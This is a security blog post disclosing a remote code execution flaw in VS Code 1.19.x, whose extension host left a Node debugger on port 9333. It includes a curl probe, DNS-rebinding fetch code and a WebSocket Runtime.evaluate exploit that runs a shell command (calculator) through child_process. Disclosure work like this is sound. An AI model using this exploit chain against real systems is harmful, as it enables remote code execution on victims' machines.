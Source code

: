 ```yaml
---
layout:	post
title:	"Visual Studio Code silently fixed a remote code execution vulnerability"
date:	2018-03-16
---
```


  ![](/img/HNfVnynXSnhX9lmDCZnmaQ.png)*This blog was written few weeks ago, since VSCode has been upgraded for a while, I made this public.*

I occasionally noticed that Visual Studio Code was listening on a fixed TCP port 9333. After upgrading to 1.19.3, it's gone.

➜ ~ netstat -an | grep 9333  
tcp4 0 0 127.0.0.1.9333 *.* LISTENLooks like it's a bug that affects VSCode 1.19.0~1.19.2. Extension process always run in debug mode, because of the accidentally added--inspect argument.

[**Make sure extension don't accidentally run in 'debug'-mode · Issue #39569 · Microsoft/vscode**  
*re #39568 With the extension runtime we make the extension host always run with inspect. Some extensions take that as a…*github.com](https://github.com/Microsoft/vscode/issues/39569 "https://github.com/Microsoft/vscode/issues/39569")[](https://github.com/Microsoft/vscode/issues/39569)[**Clear — inspect* / — debug* arg when starting extension host · Issue #40443 · Microsoft/vscode**  
*To be able to better track down problems with the extension host we start the extension host always with — inspect. The…*github.com](https://github.com/Microsoft/vscode/issues/40443 "https://github.com/Microsoft/vscode/issues/40443")[](https://github.com/Microsoft/vscode/issues/40443)Actually this is not just a bug. **It is exploitable.**

I guess he's found the same problem:

[**Vulnerability in 1.19.x · Issue #42116 · Microsoft/vscode**  
*VSCode Version: 1.19, 1.19.1, 1.19.2 OS Version: Linux, Mac, Windows I've found a vulnerability in version 1.19 and…*github.com](https://github.com/Microsoft/vscode/issues/42116 "https://github.com/Microsoft/vscode/issues/42116")[](https://github.com/Microsoft/vscode/issues/42116)To reproduce the bug, download older release from:


> <https://vscode-update.azurewebsites.net/1.19.2/win32-x64/stable>
> <https://vscode-update.azurewebsites.net/1.19.2/darwin/stable>Exploiting this port is quite simple. **Since it's a debug port you can absolutely inject arbitrary code into debuggee context**. Start Chrome browser an navigate to chrome://inspect

![](/img/C-3RYPLdCVdXfVA7soA53Q.png)Chrome's built-in javascript debugging toolClick "Configure" and add localhost:9333 to the list:

![](/img/E2noAEuWmwYbTW3mkyOluQ.png)Add targetNow click inspect to inject javascript into VS Code process:

![](/img/uY1Ozt9Gw2lVHgTdDb121Q.png)Remote targets shown in ChromeAnd profit!

![](/img/p07rMuQGd-Hgf4u_NGH91Q.png)code execution in node.jsTo weaponize this, we need to interact with devtools protocol from a remote web page. The protocol is based on HTTP and WebSocket. Check out the spec here:

* <https://github.com/ChromeDevTools/devtools-protocol>
* <https://chromedevtools.github.io/devtools-protocol/>
First, get the session id from <http://127.0.0.1:9333/json/list>

➜ ~ curl -v localhost:9333/json -H "Host: dns.rebind"  
* Trying ::1...  
* TCP_NODELAY set  
* Connection failed  
* connect to ::1 port 9333 failed: Connection refused  
* Trying 127.0.0.1...  
* TCP_NODELAY set  
* Connected to localhost (127.0.0.1) port 9333 (#0)  
> GET /json HTTP/1.1  
> Host: dns.rebind  
> User-Agent: curl/7.54.0  
> Accept: */*  
>  
* HTTP 1.0, assume close after body  
< HTTP/1.0 200 OK  
< Content-Type: application/json; charset=UTF-8  
< Cache-Control: no-cache  
< Content-Length: 649  
<  
[ {  
 "description": "node.js instance",  
 "devtoolsFrontendUrl": "chrome-devtools://devtools/bundled/inspector.html?experiments=true&v8only=true&ws=127.0.0.1:9333/c5408ce2-6f06-4a7e-a950-395d95c6804f",  
 "faviconUrl": "<https://nodejs.org/static/favicon.ico>",  
 "id": "c5408ce2-6f06-4a7e-a950-395d95c6804f",  
 "title": "/private/var/folders/4d/1_vz_55x0mn_w1cyjwr9w42c0000gn/T/AppTranslocation/EE69BB42-2A16-45F3-BB98-F6639CB594B1/d/Visual Studio Code.app/Contents/Frameworks/Code Helper.app/Contents/MacOS/Code Helper",  
 "type": "node",  
 "url": "file://",  
 "webSocketDebuggerUrl": "ws://127.0.0.1:9333/c5408ce2-6f06-4a7e-a950-395d95c6804f"  
} ]* Closing connection 0See the webSocketDebuggerUrl? That's all we need to attach the debugger.

It's a problem to fetch response from cross origin webpage. [Tavis Ormandy](https://medium.com/u/a82703d95ec2) has already shown some cases through dns-rebinding: <https://bugs.chromium.org/p/project-zero/issues/list?can=1&q=dns+rebinding&colspec=ID+Type+Status+Priority+Milestone+Owner+Summary&cells=ids>

![](/img/gV1f6shbOrzgAeQMmADQXw.png)A case shows that a local port can be access from remote web pageSo an attacker needs to setup a DNS server to alternatively resolve an evil domain between 127.0.0.1 and the actual web content ip address, with a short TTL. First the browser access the evil page, then wait for a timeout for the browser to invalidate the previous dns record, so we can bypass same origin policy to read from *evil.com:9333/json/list*, which is actually from localhost.

For those who are interested in DNS rebinding, check these out:

* <https://github.com/ctfs/write-ups-2016/tree/master/0ctf-2016/web/monkey-4>
* <https://lock.cmpxchg8b.com/rebinder.html>
* <https://github.com/lorenzog/dns-rebinding>
Some people asked how long does it take to alter the DNS to 127.0.0.1. During my experiment, I borrow the dns server from <https://lock.cmpxchg8b.com/rebinder.html> and** set a 120s script timeout before XMLHttpRequest / fetch, and it just worked**.

function log(msg) {  
 const pre = document.createElement('pre');  
 pre.appendChild(document.createTextNode(msg));  
 document.body.appendChild(pre);  
}const interval = 120 * 1000;  
async function main() {  
 let list;  
 try {  
 list = await fetch('/json').then(r => r.json());  
 } catch(e) {  
 // retry  
 log('retry');  
 return setTimeout(main, interval);  
 } const item = list.find(item => item.url.indexOf('file:///') === 0);  
 if (!item) return log('invalid response');  
 log('url:' + item.webSocketDebuggerUrl);  
 // exploit(url);  
}main()Now talk to the WebSocket server to inject second stage payload.

WebSocket supports cross domain unless the server explicitly checks Origin: header upon connection. So communicating with webSocketDebuggerUrl does not require any additional dns trick, except https:// page can't connect to ws://. Then call method Runtime.evaluate to inject script.

Assume the WebSocket server url is ws://127.0.0.1:9333/c21b0fe3-96a5-4fbc-9687-5e6c8c91a3e7, run the following script in any (non-https) webpage to see a calculator:

function exploit(url) {  
 function nodejs() {  
 const cmd = {  
 darwin: 'open /Applications/Calculator.app',  
 win32: 'calc',  
 linux: 'xcalc',  
 };  
 process.mainModule.require('child_process').exec(  
cmd[process.platform])  
 }; const packet = {  
 "id": 13371337,  
 "method": "Runtime.evaluate",  
 "params": {  
 "expression": `(${nodejs})()`,  
 "objectGroup": "console",  
 "includeCommandLineAPI": true,  
 "silent": false,  
 "contextId": 1,  
 "returnByValue": false,  
 "generatePreview": true,  
 "userGesture": true,  
 "awaitPromise": false  
 }  
 };const ws = new WebSocket();  
 ws.onopen = () => ws.send(JSON.stringify(packet));  
 ws.onmessage = ({ data }) => {  
 if (JSON.parse(data).id === 13371337)  
 ws.close()  
 };  
 ws.onerror = err => console.error('failed to connect');  
}  
exploit('ws://127.0.0.1:9333/c21b0fe3-96a5-4fbc-9687-5e6c8c91a3e7')Compared to [the recent Electron bug](https://medium.com/0xcc/electrons-bug-shellexecute-to-blame-cacb433d0d62), the later requires user interaction and only affects Windows. If you are on these versions, just upgrade. Anyways, the debugging utility will still be enabled if you manually launch VSCode command with--inspect=[port]. Better use an alternative random port than 9333 to avoid potential exploit.

P.S.

For any electron based desktop app, there's a *--remote-debugging-port* switch.

**Update 2018–03–30:**

Node.js has officially fixed the remote debugging protocol issue

[**March 2018 Security Releases | Node.js**  
*Updates are now available for all active Node.js release lines. These include the fix for the vulnerabilities…*nodejs.org](https://nodejs.org/en/blog/vulnerability/march-2018-security-releases/#node-js-inspector-dns-rebinding-vulnerability-cve-2018-7160 "https://nodejs.org/en/blog/vulnerability/march-2018-security-releases/#node-js-inspector-dns-rebinding-vulnerability-cve-2018-7160")[](https://nodejs.org/en/blog/vulnerability/march-2018-security-releases/#node-js-inspector-dns-rebinding-vulnerability-cve-2018-7160)  